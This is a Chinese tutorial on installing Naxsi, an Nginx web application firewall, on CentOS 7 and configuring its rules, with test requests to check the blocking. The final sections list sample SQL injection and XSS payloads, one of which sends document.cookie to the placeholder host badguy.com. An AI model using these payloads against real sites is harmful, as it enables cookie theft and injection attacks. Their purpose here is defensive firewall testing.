

# centos7安装配置Naxsi

naxsi源码地址：https://github.com/nbs-system/naxsi/

https://github.com/nbs-system/naxsi-rules

## 安装步骤

### 下载依赖

```bash
yum -y install gcc gcc-c++ autoconf automake make
yum -y install zlib zlib-devel openssl openssl-devel pcre pcre-devel
yum -y install GeoIP GeoIP-devel GeoIP-data
```

### 获取Naxsi和Nginx

获取Naxsi

```bash
export NAXSI_VER=1.3
wget https://github.com/nbs-system/naxsi/archive/$NAXSI_VER.tar.gz -O naxsi_$NAXSI_VER.tar.gz
```

获取Nginx

```bash
export NGINX_VER=1.16.1
wget https://nginx.org/download/nginx-$NGINX_VER.tar.gz
```

解压

```bash
tar vxf naxsi_$NAXSI_VER.tar.gz 
tar vxf nginx-$NGINX_VER.tar.gz
```

### 将naxsi构建为nginx动态扩展

```bash
cd nginx-$NGINX_VER
./configure --add-dynamic-module=../naxsi-$NAXSI_VER/naxsi_src/
make modules
make && make install
```

## 配置

### 准备naxsi规则文件

复制naxsi的核心规则文件，命令如下：

```bash
cp /usr/local/naxsi-$NAXSI_VER/naxsi_config/naxsi_core.rules /usr/local/nginx/conf/naxsi_core.rules
```

自定义naxsi规则文件，步骤如下：

```bash
vi /usr/local/nginx/conf/naxsi.rules
```

在naxsi.rules中加入以下规则

```bash
#LearningMode;  启用学习模式，即拦截请求后不拒绝访问，只将触发规则的请求写入error_log选项定义的文件中。如果对规则产生的影响不太清楚，可以先设置为学习模式。启用学习模式不能起到拦截非法请求的防御的效果。建议先使用学习模式，规则测试完成后再启用拦截模式。这样可以避免出现对网站、服务器某些不可知的影响。

#SecRulesEnabled|SecRulesDisabled
SecRulesEnabled;      #启用Naxsi模块

DeniedUrl "/RequestDenied";     #拒绝的请求发送到内部URL

#check rules  设置各规则不同的触发阈值。 一旦该阈值触发，请求将被阻塞。
CheckRule "$SQL >= 8" BLOCK;
CheckRule "$RFI >= 8" BLOCK;
CheckRule "$TRAVERSAL >= 4" BLOCK;
CheckRule "$EVADE >= 4" BLOCK;
CheckRule "$XSS >= 8" BLOCK;

#naxsi log
error_log        logs/naxsi.log;    #nginx相对路径都是相对于根目录
```

### 配置nginx.conf

在nginx.conf中加载naxsi模块，并引入naxsi规则。请关注下例中添加注释的地方

```bash
worker_processes  1;
# 加载 naxsi
load_module /usr/local/nginx/modules/ngx_http_naxsi_module.so;

events {
    worker_connections  1024;
}
http {
    include       mime.types;
    # 引入naxsi核心规则
    include       naxsi_core.rules;
    
    default_type  application/octet-stream;
    sendfile      on;
    keepalive_timeout  65;
    server {
        listen       80;
        server_name  localhost;
        location / {
            # 引入自定义naxsi规则
            include naxsi.rules;
            
            root    html;
            index   index.html index.htm;
        }
        error_page  500 502 503 504  /50x.html;
        location = /50x.html {
            return 418;
        }
        location = /403.html {
            root   html;
        }
        # 拒绝URL
        location /RequestDenied {
            return 403;
        }
    }
}
```

### 启动nginx

```bash
/usr/local/nginx/sbin/nginx -t && /usr/local/nginx/sbin/nginx -s reload
```

### 验证配置是否生效

正常访问`http://192.168.10.96/index.html`，能得到页面



当尝试攻击请求，如`http://192.168.61.26/index.html?a=<>`，请求被禁止


同时记录naxsi日志

```bash
[root@naxsi logs]# tail -f /usr/local/nginx/logs/naxsi.log
2021/04/01 02:39:49 [error] 28710#0: *22 NAXSI_FMT: ip=192.168.61.1&server=192.168.61.26&uri=/index.html&vers=1.3&total_processed=8&total_blocked=2&config=block&cscore0=$XSS&score0=8&zone0=ARGS&id0=1302&var_name0=a, client: 192.168.61.1, server: localhost, request: "GET /index.html?a=%3C%3E HTTP/1.1", host: "192.168.61.26"
```

验证完毕

## 相关概念

### Nginx+Naxsi

Naxsi是基于Nginx的轻量级的第三方Web安全防护模块。

相对ModSecurity，Naxsi基于严格的字符过滤，结合白名单规则实现防御，可以认为是基于白名单的防御方式。

优点是规则简单容易上手，基于白名单的方式可以防御未知的攻击，

缺点是容易误杀，需要结合业务配置白名单。 

Naxsi提供了从日志中学习生成白名单的工具。

### 模式：

Naxsi可以在两种模式下运行：**拦截模式**和**学习模式**。

**拦截模式**下会利用每条规则去匹配请求，并累计匹配分数，一旦分数达到阀值，则拒绝此请求并记录日志。

**学习模式**下同样会匹配请求累计分数，但是分数达到阀值之后仍然继续匹配剩下的规则，最后仅记录日志。

拦截模式用于生产环境，学习模式用于记录正常请求生成白名单。

### 规则：

Naxsi包含三种规则：

- MainRule(在Nginx的http段声明，一般作为黑规则) 

- BasicRule(在Nginx的location段声明，一般作为白规则)

- CheckRule(判断规则，在Nginx的location段声明)

  黑规则声明检查域、检查内容、匹配分值。白规则声明例外条件和例外规则。 CheckRule声明判断分数和防御手段。

### 拒绝URL：

DeniedUrl指定当判定为拒绝请求的时候，Nginx所执行的location段，在Nginx的location段声明。一般配置为返回403。

## 配置详解

### 白名单规则(BasicRule规则)详解

参考: http://code.google.com/p/naxsi/wiki/BasicRule

参考：[对nginx-naxsi白名单规则详解](http://www.xinhuyun.com/help/post/844.html)

Naxsi 社区提供了一些常用的白名单规则，例如 wordpress 。可以在 [naxsi-rules](https://github.com/nbs-system/naxsi-rules)下载白名单规则。

参考:[nginx 安装naxsi模块](https://blog.csdn.net/xujiamin0022016/article/details/95209717)的后半部分

### 其他规则

请参考：[naxsi的规则](https://www.dazhuanlan.com/2020/01/15/5e1e7a0e6b6a6/)

## 参考文档

[naxsi 官方文档](https://github.com/nbs-system/naxsi/wiki/naxsi-compile)

[nginx 安装naxsi模块](https://blog.csdn.net/xujiamin0022016/article/details/95209717)

[nginx下安装配置naxsi waf防火墙（附完整编译、配置）](https://blog.csdn.net/qq_28710983/article/details/84554887)

[Nginx_Naxsi 实现简单的web防御](https://www.e-learn.cn/topic/3241369)


```bash
环境信息：
nginx         http://117.73.10.122:8200/index.html
modsecurity   http://117.73.10.122:8443/index.html
naxsi         http://117.73.10.122:8088/index.html

常见的攻击示例：
/index.html
/index.html?id=40//and//1=1
/index.html?name=40//and//1=1
/index.html?name=%28%29
/index.html?term=%3Cscript%3Ewindow.open%28%22http://badguy.com?cookie=%22+document.cookie%29%3C/script%3E
/index.html?title=meta%20http-equiv=%22refresh%22%20content=%220;%22
/index.html?param=%22%3E%3Cscript%3Ealert(1);%3C/script%3E
/index.html?a=<>

可分别向nginx、modsecurity、naxsi发送以下请求，验证是否被拦截住

```


naxsi_BasicRule.conf

```bash
BasicRule wl:0 "mz:$ARGS_VAR:script";
BasicRule wl:0 "mz:$ARGS_VAR:id";
```


测试链接：

```bash
http://10.142.138.61:8888/xss/                       #通过
http://10.142.138.61:8888/xss/?id=40/**/and/**/1=1   #通过，因为配置到白名单
http://10.142.138.61:8888/xss/?name=40/**/and/**/1=1 #不通过，含有条件注入

# http://10.142.138.61:8888/xss/?name=()
http://10.142.138.61:8888/xss/?name=%28%29      #不通过，特殊字符

# http://10.142.138.61:8888/xss/?term=window.open("http://badguy.com?cookie="+document.cookie)
http://10.142.138.61:8888/xss/?term=%3Cscript%3Ewindow.open%28%22http://badguy.com?cookie=%22+document.cookie%29%3C/script%3E #不通过，参数内容含脚本注入

# http://10.142.138.61:8888/xss/?title=meta http-equiv="refresh" content="0;"
http://10.142.138.61:8888/xss/?title=meta%20http-equiv=%22refresh%22%20content=%220;%22 #不通过
```